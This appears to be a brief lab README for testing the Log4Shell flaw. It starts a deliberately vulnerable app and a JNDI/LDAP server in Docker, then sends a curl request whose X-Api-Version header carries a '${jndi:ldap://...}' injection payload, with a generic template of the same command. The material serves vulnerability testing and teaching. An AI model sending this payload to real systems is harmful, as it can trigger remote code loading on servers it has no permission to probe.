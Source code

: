 ```
docker run -p 8080:8080 --name vulnerable-app ghcr.io/igormv28/vulnerable-app

docker run -P --name jndi ghcr.io/igormv28/jndi

docker inspect jndi |grep IPAddress
            "SecondaryIPAddresses": null,
            "IPAddress": "172.17.0.2",
                    "IPAddress": "172.17.0.2",

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.2:1389/If_JNDI_Received_Then_Vulnerable}'
```
curl <app_url:port> -H 'X-Api-Version: ${jndi:ldap://<JNDI_IP:1389/If_JNDI_Received_Then_Vulnerable}'
